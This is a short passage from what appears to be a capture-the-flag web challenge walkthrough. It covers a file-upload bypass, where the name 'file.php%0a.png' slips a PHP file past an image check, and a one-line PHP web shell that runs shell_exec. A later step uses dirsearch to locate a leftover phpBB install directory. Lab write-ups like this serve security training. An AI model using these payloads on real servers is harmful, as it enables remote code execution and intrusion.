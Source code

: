 ### 19.File upload - Null byte

create: `file.php%0a.png`

```
<?php echo shell_exec('id'); ?>
```

![](<../../.gitbook/assets/image (2) (1) (3).png>)

![](<../../.gitbook/assets/image (6) (2) (2).png>)

### 20.Install files

use dirsearch: /web-serveur/ch6/phpbb/install
